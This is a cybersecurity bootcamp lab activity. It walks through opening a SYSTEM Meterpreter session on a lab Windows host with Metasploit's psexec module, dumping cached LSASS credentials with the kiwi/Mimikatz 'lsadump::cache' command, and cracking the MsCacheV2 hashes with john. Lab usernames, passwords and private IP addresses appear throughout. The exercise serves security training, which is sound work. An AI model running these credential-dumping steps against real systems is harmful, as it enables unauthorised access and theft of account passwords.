

## Activity File: Credential Dumping

In this activity, you used the Metasploit `kiwi` extension to dump the credentials that are cached on the WIN10 machine.

### Instructions

First, open a Meterpreter session as SYSTEM on WIN10 by performing the following steps (if a current Meterpreter SYSTEM session isn't already opened).

1. Load the `psexec` module. `use exploit/windows/smb/psexec`

2. Set the following parameters:

	- `set RHOSTS 172.22.117.20`
	
	- `set SMBUSER tstark`
	
	- `set SMBPass Password!`
	
	- `set SMBDomain megacorpone`
	
	- `set LHOST 172.22.117.100`
	
	- 
	
3. Run the module with `run`

	- 

4. In your Meterpreter session, load the `kiwi` extension.

     - `load kiwi`

     

5. Once a new extension is loaded into Metasploit, it will update the help menu. View the `kiwi` command options by calling the help menu in Meterpreter.

     - `?`

     

6. Dump all of the cached credentials from LSASS using a `kiwi_cmd` command. Reference the following cheatsheet for Mimikatz. Pay attention to the "lsadump" section. 

	- [Mimikatz Cheatsheet](https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49)

     **Note**: If the `kiwi` command is not dumping credentials as expected, try migrating to another process using the `migrate` command. Keep in mind that you'll want to migrate to another SYSTEM x64 process. 
	 
	 `kiwi_cmd lsadump::cache`
	 
	 

7. In the output, the hashes are displayed after the 'MsCacheV2 field'. MsCacheV2 is just the format of the hash. Save the hashes in the format `username:password`, as shown below.

	
	
	Using `john`, attempt to crack the password. Your `john` command should use the flag --format=mscash2, e.g. `john --format=mscash2 hashes.txt`

	

8. You should now have the plaintext password to the new account, 'bbanner'.

	`bbanner:Winter2021`
                                                                                                                               
---
© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.

